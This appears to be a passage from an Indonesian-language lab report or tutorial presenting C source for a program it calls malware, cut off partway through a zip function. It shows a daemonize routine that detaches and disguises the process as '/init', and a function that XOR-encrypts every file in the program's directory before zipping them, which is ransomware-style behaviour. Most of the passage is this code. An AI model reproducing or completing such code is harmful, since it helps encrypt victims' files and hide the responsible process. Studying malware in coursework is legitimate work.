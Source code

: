 </pre>
2. Function daemonize yang selalu berjalan di latar belakang
<pre>
     void daemonize() {
    pid_t pid = fork();
    if (pid < 0) exit(EXIT_FAILURE);
    if (pid > 0) exit(EXIT_SUCCESS); 

    setsid();
    umask(0);

    close(STDIN_FILENO);
    close(STDOUT_FILENO);
    close(STDERR_FILENO);

    prctl(PR_SET_NAME, (unsigned long) "/init", 0, 0, 0);
     }
</pre>
3. Function XOR untuk mengenkripsi seluruh file di dalam direktori dimana malware berada
<pre>
     void xor_file(const char *filepath, uint8_t key) {
    FILE *fp = fopen(filepath, "rb+");
    if (!fp) return;

    fseek(fp, 0, SEEK_END);
    long size = ftell(fp);
    rewind(fp);

    uint8_t *buffer = malloc(size);
    fread(buffer, 1, size, fp);

    for (long i = 0; i < size; i++) {
        buffer[i] ^= key;
    }

    rewind(fp);
    fwrite(buffer, 1, size, fp);

    fclose(fp);
    free(buffer);
     }
</pre>
4. Mengubah seluruh file yang telah di enkripsi menjadi zip
<pre>
     char *zip_folder(const char *folderpath) {
    char zipname[1024];
    snprintf(zipname, sizeof(zipname), "%s.zip", folderpath);

    int errorp;
    zip_t *zip = zip_open(zipname, ZIP_CREATE | ZIP_TRUNCATE, &errorp);
    if (!zip) return NULL;

    DIR *dir;
    struct dirent *entry;
    char path[1024];
